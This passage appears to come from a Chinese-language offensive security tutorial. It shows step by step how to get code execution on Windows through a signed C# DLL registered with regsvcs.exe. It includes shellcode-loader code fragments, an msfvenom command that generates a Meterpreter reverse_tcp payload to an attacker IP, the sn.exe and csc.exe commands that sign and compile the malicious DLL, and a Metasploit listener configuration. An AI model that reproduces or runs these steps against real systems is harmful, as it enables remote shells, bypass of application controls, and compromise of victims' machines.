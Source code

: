   ```csharp
          private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

          [DllImport("kernel32")]
          private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
      }
  }
  ```

#### 2. 生成Meterpreter Payload（攻击机）

**命令**：
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f csharp
```

**输出**（示例）：
```csharp
byte[] shellcode = new byte[341] { 0xfc,0xe8,0x82,0x00,0x00,0x00, ... };
```

- 将生成的Shellcode替换C#代码中的`shellcode`数组。

#### 3. 生成签名密钥（靶机）

**命令**：
```cmd
"C:\Program Files (x86)\Microsoft SDKs\Windows\v10.0A\bin\NETFX 4.8 Tools\sn.exe" -k key.snk
```

**说明**：
- 使用`sn.exe`生成强名称密钥对（`key.snk`），用于DLL签名。
- 需安装Windows SDK或Visual Studio。

#### 4. 编译恶意DLL（靶机）

**命令**：
```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /target:library /out:Micropoor.dll /keyfile:key.snk regsvcs.cs
```

**说明**：
- 使用`csc.exe`编译C#代码为DLL，引用`System.EnterpriseServices.dll`。
- `/keyfile:key.snk`：为DLL签名，确保注册时通过验证。
- 输出文件：`Micropoor.dll`。

#### 5. 配置Metasploit监听（攻击机）

**命令**：
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.126.146
set LPORT 4444
set AutoRunScript migrate -f
exploit
```

